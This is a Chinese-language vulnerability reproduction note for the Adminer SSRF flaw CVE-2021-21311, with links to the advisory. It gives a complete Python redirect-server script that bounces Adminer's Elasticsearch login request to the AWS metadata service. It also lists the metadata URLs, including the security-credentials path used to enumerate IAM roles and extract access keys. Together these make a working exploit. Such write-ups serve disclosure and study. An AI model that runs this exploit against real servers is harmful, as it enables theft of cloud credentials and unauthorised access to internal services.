


# Adminer SSRF漏洞 CVE-2021-21311

## 漏洞描述

使用管理员发送任意get请求并从内部服务器检索JSON响应的方法。可以从AWS元数据服务中提取AWS访问密钥。

参考链接：

- https://github.com/advisories/GHSA-x5r2-hj5c-8jx6
- https://gist.github.com/bpsizemore/227141941c5075d96a34e375c63ae3bd

## 漏洞复现

首先，启动一个python服务器，该服务器侦听传入的连接并以301重定向响应到任意选择的主机。在此示例情况下，重定向指向AWS元数据服务：

```
http://169.254.169.254/latest/meta-data/instance-id
```

然后，在Adminer中使用Elasticsearch登录模块“登录”运行python代码的服务器，这导致Adminer从包含服务器的AWS实例ID的元数据服务器打印json响应。




重定向请求的python脚本：


```py
#!/usr/bin/env python

import SimpleHTTPServer
import SocketServer
import sys
import argparse

def redirect_handler_factory(url):
    """
    Returns a request handler class that redirects to supplied `url`
    """
    class RedirectHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
       def do_GET(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

       def do_POST(self):
           self.send_response(301)
           self.send_header('Location', url)
           self.end_headers()

    return RedirectHandler


def main():

    parser = argparse.ArgumentParser(description='HTTP redirect server')

    parser.add_argument('--port', '-p', action="store", type=int, default=80, help='port to listen on')
    parser.add_argument('--ip', '-i', action="store", default="", help='host interface to listen on')
    parser.add_argument('redirect_url', action="store")

    myargs = parser.parse_args()

    redirect_url = myargs.redirect_url
    port = myargs.port
    host = myargs.ip

    redirectHandler = redirect_handler_factory(redirect_url)

    handler = SocketServer.TCPServer((host, port), redirectHandler)
    print("serving at port %s" % port)
    handler.serve_forever()

if __name__ == "__main__":
    main()

```


```
http://169.254.169.254/latest/meta-data/iam/security-credentials/  //列出服务器的可用角色。
```




